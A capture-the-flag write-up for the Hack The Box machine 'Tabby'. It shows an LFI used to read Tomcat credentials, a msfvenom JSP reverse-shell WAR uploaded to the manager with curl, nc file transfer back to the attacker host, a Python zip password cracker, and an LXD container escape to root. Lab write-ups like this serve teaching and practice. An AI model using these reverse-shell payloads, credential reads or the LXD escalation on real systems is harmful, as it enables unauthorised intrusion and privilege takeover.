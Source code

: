 # Hack The Box - Tabby

## This is my writeup and walkthrough for tabby from Hack The Box.


![cover](https://user-images.githubusercontent.com/36403473/86299941-cbe51a80-bc01-11ea-801b-3c4a276e6143.jpg)

## an easy linux machine with some vulnerable LFI 

## `Enumeration`
   
#### 1-Nmap 
  `nmap -sC -sV 10.10.10.194`

```
theblock@python-4004:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 01:22 EET
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.47s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http Apache httpd 2.4.41 ((Ubuntu))` ,and 8080 running a http Apache called `Tomcat`. 

#### 2-website

![Screenshot from 2020-07-02 01-34-45](https://user-images.githubusercontent.com/36403473/86300983-ecfb3a80-bc04-11ea-81d9-2d1be55f2920.png)

##### Ckeck site very well moving to `news` page founding  paramter `file` it maybe vulnerable

![Screenshot from 2020-07-02 01-33-13](https://user-images.githubusercontent.com/36403473/86301124-4cf1e100-bc05-11ea-906c-1b77164f5826.png)

##### First i thought it may be `LFI` and it was right expectation but let’s add 10.10.10.194 to our `/etc/hosts` file  

![Screenshot from 2020-07-02 02-09-29](https://user-images.githubusercontent.com/36403473/86302713-c8ee2800-bc09-11ea-8f35-3453aedf8d99.png)
 
##### the second step is to exploit but i need more information now the role of port `8080`
#####   checking this port `10.10.10.194:8080`


![Screenshot from 2020-07-02 02-23-24](https://user-images.githubusercontent.com/36403473/86303303-bd9bfc00-bc0b-11ea-8ed6-33fa5e11bbab.png)
 
The `CATALINA_HOME` and `CATALINA_BASE` environment variables are used to 
specify the location of Apache Tomcat and the location of its active configuration, respectively.

this information is very important `Users are defined in /etc/tomcat9/tomcat-users.xml.` okey lets see our users using `CATALINA_HOME`
i think its very important to see Apache Tomcat 8 docs ,googling and lets try to get usrs from `tomcat-users.xml`
[Tomcat docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)


![lfi](https://user-images.githubusercontent.com/36403473/86301222-95110380-bc05-11ea-8f59-d41dbaa6f153.png)
 very good i have `tomcat` password `$3cureP4s5w0rd123!`
now i can acess `The host-manager` but i dont have any authorization to  upload any shell on this server so lets googling maybe find way.
i found an exploitaion to this server [Tomcat exploitaion](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)
now from `LFI` we can get `RCE` 
### Exploitation
 
 Exploitation is  to Generate `.war` Format Backdoor,We can use msfvenom for generating a `.war` format backdoor for java/jsp payload, all you need to do
 is just follow the given below syntax to create a `.war` format file and then run Netcat listener.
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.120 LPORT=1234 -f war > kk.war
 nc -lvp 1234
 ```
 Deploy A New Application from a Local Path from this path `http://10.10.10.194:8080/manager/text/deploy?path=filename` this mentioned in the documentation 
 
 using curl command to send `.war` file to server 
```
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file kk.war "http://10.10.10.194:8080/manager/text/deploy?path=/kk.war"
```
checking context `http://10.10.10.194:8080/manager/text/deploy?config=file:/path/context.xml`

![server file](https://user-images.githubusercontent.com/36403473/86305635-6cdbd180-bc12-11ea-8ace-28c853d22d85.jpg)
###### `kk.war` is uploaded successfully 

![connect2](https://user-images.githubusercontent.com/36403473/86305804-deb41b00-bc12-11ea-9efc-bfa48c11f726.jpg)

connected to machine and upgrade to tty shell  `python3 -c 'import pty; pty.spawn("/bin/bash")'` or to upgrade to full  tty shell use this commands 

 ``` 
    /usr/bin/script -qc /bin/bash /dev/null
     Ctrl-Z
     stty raw -echo
     fg
     Ctrl-Z
    
````
### Privilege Escalation
#### 1- Own User
in this step lets discover system and search for any things that seem important to escalate your privilege
in /home/ash i couldnt go inside lets look deeper 
in `/var/www/html/files` i found `16162020_backup.zip` that need password to be unziped so i copy this zip file from target machine to my machine by nc command 
``` 
target machine 
nc 10.10.16.120 4000 > 16162020_backup.zip
my machine 
nc -l -p 4000 < 16162020_backup.zip
````
i develop simple python code to crack this zip file password 

```
#!/usr/local/bin/python3
from tqdm  import tqdm 
import zipfile
import sys

wordlist = sys.argv[2]
zip_file = sys.argv[1]

zip_file = zipfile.ZipFile(zip_file)
n_words = len(list(open(wordlist, "rb")))

print("Total passwords to test:", n_words)
with open(wordlist, "rb") as wordlist:
    for word in tqdm(wordlist, total=n_words, unit="word"):
        try:
            zip_file.extractall(pwd=word.strip())
        except:
            continue
        else:
            print("[+] Password found:", word.decode().strip())
            exit(0)
print("[!] Password not found, try other wordlist.")
```
the password `admin@it`
And now we owned user ash:
getting usr.txt 

![Screenshot from 2020-07-02 03-54-33](https://user-images.githubusercontent.com/36403473/86308013-7700ce80-bc18-11ea-95c4-3cd1369c46d8.png)

#### 2- Own Root
This step took me a lot of time, although it was not difficult
but finally i own machine lets explian the exploit 
on seeig autherization by `id` 

![Screenshot from 2020-07-02 04-00-23](https://user-images.githubusercontent.com/36403473/86308347-40778380-bc19-11ea-93e7-e5d5122d8379.png)

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. 
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
The vulnerability exists even with the LXD snap package.
[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

#### Steps to be performed on the attacker machine:
1-Download build-alpine in your local machine through the git repository. 

2-Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

3-Transfer the tar file to the host machine

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

```
i upload all files on my localhost 

![Screenshot from 2020-06-30 17-24-49](https://user-images.githubusercontent.com/36403473/86310114-8afaff00-bc1d-11ea-856b-551651e35021.png)

on the target machine 
`wget  http://10.10.16.120/lxd-alpine-builder-master/alpine-v3.12-x86_64-20200630_1546.tar.gz` on `/tmp` or /`home`

After the image is built it can be added as an image to LXD as follows:
`lxc image import alpine-v3.12-x86_64-20200630_1546.tar.gz --alias myimage`
`lxc image list`
![lxc](https://user-images.githubusercontent.com/36403473/86310258-e62cf180-bc1d-11ea-92a5-898b77719e79.png)

 ```
 lxc init myimage ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id
````
Once inside the container, navigate to /mnt/root to see all resources from the host machine.
After running the bash file. We see that we have a different shell, it is the shell of the container. 
This container has all the files of the host machine. So, we enumerated for the flag and found it.

```
mnt/root/root
ls
flag.txt
cat flag.txt
```
![root](https://user-images.githubusercontent.com/36403473/86310532-a1ee2100-bc1e-11ea-8bb1-bf272f231d6c.png)

#### finally pwned

